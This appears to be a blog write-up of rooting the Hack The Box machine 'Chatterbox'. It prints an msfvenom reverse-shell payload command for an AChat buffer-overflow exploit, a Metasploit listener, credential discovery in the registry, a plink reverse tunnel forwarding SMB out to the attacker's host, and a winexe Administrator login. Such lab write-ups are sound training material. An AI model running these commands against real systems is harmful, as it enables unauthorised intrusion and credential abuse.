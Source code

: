 ```yaml
---
layout: post
title:  "Hackthebox - Chatterbox"
date:   2020-08-06 19:24:55 -0700
categories: hackthebox writeups medium
tags: hackthebox chatterbox ctf msfvenom meterpreter AChat AutoRunScript nishang oscp-like 
---
```


In this post I will be showing you how to root Chatterbox, as always I will try to not spoonfeed as much as I can. Enjoy.

I ran an nmap scan against the box but no ports came back, so I decided to a full port scan by adding the `-p-` flag my nmap command, this revealed 2 ports which were related to AChat.

![image](/assets/images/htb_chatterbox_nmap.png)

I did a quick searchsploit search against "AChat" and decided to use this python script: [https://www.exploit-db.com/exploits/36025](https://www.exploit-db.com/exploits/36025)

I used the following command to generate my payload and replaced it in the python script

```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=listeningip LPORT=listeningport -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

Then I used metasploit's `exploit/multi/handler` module to listen for the shell, do not forget to set the payload to `windows/shell_reverse_tcp` (I forgot doing this and it took me 30 minutes to figure it out)

After I got the shell I ran really quick `netstat -ano` because I was not convinced `AChat` was the only service running on the machine.

To my surprise, there was indeed `445` open which was basically SMB. 

SMB could help us only:
- If we got credentials
    - In case of Administrator creds, we could possible get a shell
- Anonymous login is enabled

So before port forwarding 445, I decided to do more enumeration.

I went to the good old hacktricks' checklist which I recommend you check out.

After few minutes, I got my first credentials within registry, more info here: [https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#inside-the-registry](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#inside-the-registry)

![image](/assets/images/htb_chatterbox_reg.png)

I downloaded plink (**MAKE SURE TO DOWNLOAD THE 32 BIT VERSION**) from [here](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html).

After downloading it I used python3 to make a http server where I will download plink from.

```bash
$ cd ~/Downloads
$ python3 -m http.server # You might need to run this as root or specific another port that doesn't need special privs to bind to, by default it uses 8000
```

On my box I also started ssh using systemctl

```bash
$ sudo systemctl enable ssh
```

Then using plink on the box I ran the following:

```batch
.\plink.exe -l d4rckh -pw 123123 -R 445:127.0.0.1:445 10.10.XX.XX
```
(NOTE: Change the username, IP and password so they match with your box)

From there I ran winexe:

```bash
winexe -U Administrator%Welcome1! //127.0.0.1 “cmd.exe”
```

![image](/assets/images/htb_chatterbox_root.png)


